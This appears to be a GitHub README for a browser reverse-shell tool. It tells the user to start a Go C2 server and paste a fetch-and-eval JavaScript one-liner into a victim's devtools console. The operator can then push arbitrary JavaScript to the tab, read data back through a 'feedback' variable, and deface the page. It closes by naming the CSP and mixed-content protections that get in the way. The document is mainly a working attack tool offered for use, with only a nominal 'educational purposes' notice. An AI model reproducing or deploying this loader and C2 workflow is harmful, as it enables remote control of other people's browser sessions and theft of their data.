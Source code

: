 # Browser Reverse Shell

**NOTICE: for educational purposes only, DO NOT use without the explicit permission of the owner of the browser**

Create a reverse shell into a browser tab.

## How to use

start the C2 server by going into the c2 directory and running

~~~bash
go run main.go
~~~

then in the victim browser, open devtools and paste the fetch-rev-shell.js contents into the console, changing out the url for the ip address of your c2 server.

~~~js
const url = "http://localhost:8080/"; const r1 = await fetch(url + "get");const r2 = await r1.text(); eval(r2);
~~~

now go to the console of the c2 server, you now have a javascript reverse shell into the current browser tab.

in the server you will get a shell like this:

~~~
(c2)> 
~~~

To send something to the browser, use the **send** command:

~~~
(c2)> send console.log("hello world")
~~~

~~~
(c2)> send document.body.innerHTML = "your browser is mine!!!"
~~~

## Feedback

To get information back to the c2 server, you can use the *feedback* variable.

for example to see the title of the current page:

~~~
(c2)> send feedback = document.title
~~~

The title will then be printed next time the browser sends a request

## Challenges

- HTTPS: most websites reject mixed content from http and https websites (except from localhost)
- This reverse shell relies on the eval function of javascript, which many sites block.
- Many sites (like github) block fetching from other sources than the preapproved ones, which will give you an error like
~~~
Content-Security-Policy: The page’s settings blocked the loading of a resource (connect-src) at http://localhost:8080/get because it violates the following directive: “connect-src 'self'
~~~
